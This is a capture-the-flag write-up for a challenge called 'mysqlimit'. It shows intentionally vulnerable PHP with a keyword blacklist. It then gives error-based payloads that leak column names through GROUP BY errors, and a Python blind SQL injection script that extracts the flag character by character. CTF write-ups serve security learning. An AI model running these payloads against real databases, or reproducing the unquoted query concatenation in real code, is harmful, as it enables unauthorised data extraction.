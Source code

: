 ## mysqlimit

```
Description:

Limit 'Em All! http://45.77.255.164/
```

```php
<?php 

include('dbconnect.php');

if(!isset($_GET["id"]))
{
    show_source(__FILE__);
}
else
{
    // filter all what i found on internet.... dunno why ｡ﾟ･（>﹏<）･ﾟ｡
    if (preg_match('/union|and|or|on|cast|sys|inno|mid|substr|pad|space|if|case|exp|like|sound|produce|extract|xml|between|count|column|sleep|benchmark|\<|\>|\=/is' , $_GET['id'])) 
    {
        die('<img src="https://i.imgur.com/C42ET4u.gif" />'); 
    }
    else
    {
        // prevent sql injection
        $id = mysqli_real_escape_string($conn, $_GET["id"]);

        $query = "select * from flag_here_hihi where id=".$id;
        $run_query = mysqli_query($conn,$query);

        if(!$run_query) {
            echo mysqli_error($conn);
        }
        else
        {    
            // I'm kidding, just the name of flag, not flag :(
            echo '<br>';
            $res = $run_query->fetch_array()[1];
            echo $res; 
        }
    }
}

?>
```

The code is filtering `sys` and `column`. So, I thought it's hard to get column name directly and also `union` is filtered. So, we cannot use redefining column name using `union` is also unavailable. But there is a part which prints error.

```php
if(!$run_query) {
    echo mysqli_error($conn);
}
```



So, I guess we can trigger errors for getting column name.

While I was digging some method, I realized that server's configuration is not normal case.

Below payload caused an error.

```sql
-9 group by 1
```

error:

```
Expression #2 of SELECT list is not in GROUP BY clause and contains nonaggregated column 'flag_here_hoho.flag_here_hihi.t_fl4g_name_su' which is not functionally dependent on columns in GROUP BY clause; this is incompatible with sql_mode=only_full_group_by
```

this error is displaying `dbname.table_name.column_name`

So, we can get the column name of flag with `group by 2`



```
Expression #3 of SELECT list is not in GROUP BY clause and contains nonaggregated column 'flag_here_hoho.flag_here_hihi.t_fl4g_v3lue_su' which is not functionally dependent on columns in GROUP BY clause; this is incompatible with sql_mode=only_full_group_by
```

So, column name was `t_fl4g_v3lue_su`.

And there is no filtering with  `right`,  `left`,  `ascii` and  `in`. These will cause blind sql injection.

So, my final payload is like this



```python
import requests

flag = ''
for i in range(1,100):
    for j in range(32,127):
        conn = requests.get('http://45.77.255.164/?id=-9||ascii(right(left(t_fl4g_v3lue_su,'+str(i)+'),1))in('+str(j)+')')
        r1 = conn.content
        #print j
        if 'handsome_flag' in r1:
            flag += chr(j)
            print flag
            break
```